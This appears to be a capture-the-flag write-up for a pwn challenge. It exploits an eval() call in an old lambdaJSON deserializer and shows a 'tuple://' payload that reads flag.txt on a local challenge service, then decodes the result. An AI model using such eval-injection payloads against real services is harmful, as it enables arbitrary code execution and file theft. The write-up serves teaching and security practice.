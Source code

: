 # Rocket Science - Solution

**Author**: zeyu2001

**Category**: Pwn

Vulnerability in [lambdaJSON](https://pypi.org/project/lambdaJSON/)

Version 0.1.5 [fixes](https://github.com/pouya-eghbali/lambdaJSON/commit/0d3bcb8bf3388c90819f0f24c9865bc8d4d8b91e#diff-fbf3e360906b992a9c0fa6a63e4b5d3da7cc8b39fedd415697bb15d68c17f4f6) an insecure `eval()` vulnerability, replacing `eval()` with `ast.literal_eval()`.

`ast.literal_eval()` only considers a small subset of Python's syntax to be valid. Detailed explanation can be found [here](https://stackoverflow.com/questions/15197673/using-pythons-eval-vs-ast-literal-eval).

By inspecting the source code, we find that the `restore` function in `deserialize` uses `eval()`.

```python
restore = lambda obj:          (isinstance(obj, str) 
                        and    (lambda x: x.startswith('bytes://') 
                        and    bytes(x[8:], encoding = 'utf8') 
                        or     x.startswith('int://') 
                        and    int(x[6:]) 
                        or     x.startswith('float://') 
                        and    float(x[8:])
                        or     x.startswith('long://') 
                        and    long(x[7:])
                        or     x.startswith('bool://') 
                        and    eval(x[7:]) 
                        or     x.startswith('complex://')
                        and    complex(x[10:])
                        or     x.startswith('tuple://') 
                        and    eval(x[8:]) or x)(obj) 
                        or     isinstance(obj, list) 
                        and    [restore(i) for i in obj] 
                        or     isinstance(obj, dict) 
                        and    {restore(i):restore(obj[i]) for i in obj} 
                        or     obj)
```

The only other obstacle left is the fact that the deserialized object must be a tuple and all elements of the tuple must be integers.
```
➜  ~ nc 127.0.0.1 50000

                                       _,'/
                                  _.-''._:
                          ,-:`-.-'    .:.|
                         ;-.''       .::.|
          _..------.._  / (:.       .:::.|
       ,'.   .. . .  .`/  : :.     .::::.|
     ,'. .    .  .   ./    \ ::. .::::::.|
   ,'. .  .    .   . /      `.,,::::::::.;\
  /  .            . /       ,',';_::::::,:_:
 / . .  .   .      /      ,',','::`--'':;._;
: .             . /     ,',',':::::::_:'_,'
|..  .   .   .   /    ,',','::::::_:'_,'
|.              /,-. /,',':::::_:'_,'
| ..    .    . /) /-:/,'::::_:',-'
: . .     .   // / ,'):::_:',' ;
 \ .   .     // /,' /,-.','  ./
  \ . .  `::./,// ,'' ,'   . /
   `. .   . `;;;,/_.'' . . ,'
    ,`. .   :;;' `:.  .  ,'
   /   `-._,'  ..  ` _.-'
  (     _,'``------''
   `--''

Welcome to Rocket Science! In this class, we will learn all about rockets.
For our first lesson, we will start with the basics of mathematics.
1) Test your knowledge
2) Save numbers
3) Load numbers
> 3
Enter saved numbers:
> "tuple://(int.from_bytes(open('flag.txt').read().encode(), byteorder='big'), 2)"
(3969309506657081582967368110556498469050796930805813227720771571473136717745745293677237528859886779701434271164439572744813346302117987974410, 2)
```

After obtaining the number, we can then use `long_to_bytes` to get the flag.

```
➜  ~ python3
Python 3.9.5 (default, May  4 2021, 03:36:27)
[Clang 12.0.0 (clang-1200.0.32.29)] on darwin
Type "help", "copyright", "credits" or "license" for more information.
>>> from Crypto.Util.number import long_to_bytes
>>> long_to_bytes(3969309506657081582967368110556498469050796930805813227720771571473136717745745293677237528859886779701434271164439572744813346302117987974410)
b'STC{3v4l_1s_3v1l_00e80002e832f357cf5c05ee114a5cb40e746757}\n'
>>>
```
